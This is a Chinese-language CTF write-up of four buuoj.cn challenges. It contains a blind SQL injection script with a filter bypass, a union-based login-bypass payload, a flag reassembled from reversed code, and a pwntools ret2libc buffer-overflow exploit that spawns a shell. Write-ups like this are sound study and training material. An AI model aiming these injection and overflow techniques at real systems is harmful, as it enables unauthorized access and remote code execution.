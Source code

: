 # 2024-2-18

## Web&Re

### 1

![1](images/1.png)

首先我们尝试万能密码发现有过滤

![2](images/2.png)

然后Burp查看过滤

![0](images/0.png)

接着我们发现输入1后会出现特殊的显示，那么我们就利用盲注来进行注入

```python
import requests
import string

url ='http://b0e518d3-e3b1-4748-894a-4e81e3ece991.node5.buuoj.cn:81/index.php'
flag=''
str = string.printable
for i in range(1,60):
    for j in str:
        print(i,j,flag)
        payload = '(select(ascii(mid(username,{0},1))={1})from(user))'.format(i,ord(j))
        data={"id":payload}
        res = requests.post(url=url, data=data)
        if 'Hello' in res.text:
            flag += j
            print(flag)
        else:
            continue
    print(flag)

```

因为空格被过滤所以我们使用括号来进行绕过，因为告诉了我们表名和列名直接爆破即可

![3](images/3.png)

### 2

![7](images/7.png)

我们注入两个选项可以发现这次注入点在UserName

![4](images/4.png)

测一下过滤发现括号被过滤了，然后有一串字符，用base32解一下再用base64解一下得到select * from user where username = '$name'



![8](images/8.png)

然后我们测一下列数发现是三列。接着测试发现admin是在第二列，然后会提示wrong pass，查看源码可以看见第三列是密码的md5，所以我们进行拼接`name=-1' union select 1,'admin','202cb962ac59075b964b07152d234b70' #&pw=123`直接将密码的md5放在第三列就得到flag

![9](images/9.png)

### 3

![屏幕截图 2023-10-12 182051](images/10.png)

进入主函数直接发现有输入检查函数，进入查看

![屏幕截图 2023-10-12 182109](images/11.png)

这几个函数在套娃，每个里面都有一部分

![屏幕截图 2023-10-12 182608](images/12.png)

拼起来即可

```python
flag = {'10':112,'13':64,'3':102,'26':114,'20':101,'7':48,'16':95,'11':112,'23':101,'30':117,'0':119,'6':50,'22':115,'31':110,'12':95,'15':100,'8':123,'18':51,'28':95,'21':114,'2':116,'9':99,'32':125,'19':118,'5':48,'14':110,'4':50,'29':102,'17':114,'24':95,'1':99,'25':64,'27':101}
new = ''
for j in range(len(flag)):
    new += chr(flag[str(j)])
print(new)
```

### 4



进入主函数我们可以看见生成了个随机数并传入了sub_804871F函数，我们进入该函数查看

![屏幕截图 2023-09-04 162701](images/13.png)

在这个函数里将随机数传入到s中，然后读入数据到buf中与s进行比较，为了绕过比较我们可以设置buf第一个元素为/x00，这样strlen就会为0，又因为read会将读入的字节和最后的/x00都算在内所以不会影响buf[7]，最后返回buf[7]。

![屏幕截图 2023-09-04 162713](images/14.png)

我们进入最后一个函数可以看见只要我们将buf[7]的值设置为大于127就可以覆盖返回地址进行攻击

```python
from pwn import *
from LibcSearcher import *

context(os = 'linux', arch = 'amd64', log_level = 'debug')

io = process('pwn')
# io = remote('node4.buuoj.cn',29418)
elf = ELF('./pwn')
write_plt = elf.plt["write"]
write_got = elf.got["write"]
main_addr = 0x08048825
io.sendline('\x00'+'\xff'*7)

payload = b'a' * (0xE7 + 0x04) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload)

write_addr = u32(io.recv(4))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
io.sendline('\x00'+'\xff'*7)

payload = b'a' * (0xE7 + 0x04) + p32(system_addr) + p32(b'a'*4)+p32(binsh_addr)

io.sendline(payload)
io.interactive()
```

